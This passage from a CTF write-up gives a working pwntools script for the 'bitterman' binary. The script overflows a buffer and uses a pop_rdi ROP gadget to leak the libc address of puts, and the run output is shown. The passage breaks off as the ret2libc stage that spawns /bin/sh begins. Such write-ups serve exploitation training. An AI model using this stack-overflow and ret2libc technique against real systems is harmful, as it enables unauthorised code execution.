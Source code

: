 Let's make the exploit:-

First off, we have `pop_rdi` gadget address and **PLT** and **GOT** `puts` address.

```py
from pwn import * # importing fuctions 
#context(terminal=['gnome-terminal','new-window']) Debug purpose
#context.log_level = 'DEBUG' # Debug purpose
p = process('./bitterman') # using bitterman elf # processing the target elf
#p = gdb.debug('./bitterman','b main') # breakpoint setup at main via gdb
plt_put = p64(0x400520) # PLT put address 
got_put = p64(0x600c50) # GOT put address
pop_rdi = p64(0x400853) # pop_rdi address

padding = "A"*152 # Because we know the offset from earlier

payload = padding +  pop_rdi + got_put + plt_put 

p.recvuntil("name?") # recieve data until we recieve the string
p.sendline("robin")  # send data 
p.recvuntil("message:") # recieve data until we recieve the string
p.sendline("1024") # send data 
p.recvuntil("text:") # recieve data until we recieve the string
p.sendline(payload) # send data
p.recvuntil("Thanks!") # recieve data until we recieve the string
leaked_puts = p.recv()[:8].strip().ljust(8,"\x00") # recieving the string until we get leaked address and padding with null bytes to length of 8
log.success("Leaked puts: %s" %(leaked_puts)) # Prints the leaked addresss
p.interactive() # keeps the shell interactive
```
This script pretty much explains everything with comments. So, let's see what we get after running this:-

```r
[+] Starting local process './bitterman': pid 3117
[*] '/home/robin/ROP-Emporium/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Leaked puts: ��E\x92\x87\x7f\x00\x00
[*] Switching to interactive mode
```

Great, we now have the leaked address, we need to find the offset which will be constant for every address. So, let's start carfting our **ret2libc** attack.

# Stage 2: Final Exploit using ret2libc

So, from the previous exploit we get the leaked address. Now we need to find the offset and execute the `/bin/sh` to spawn a shell.
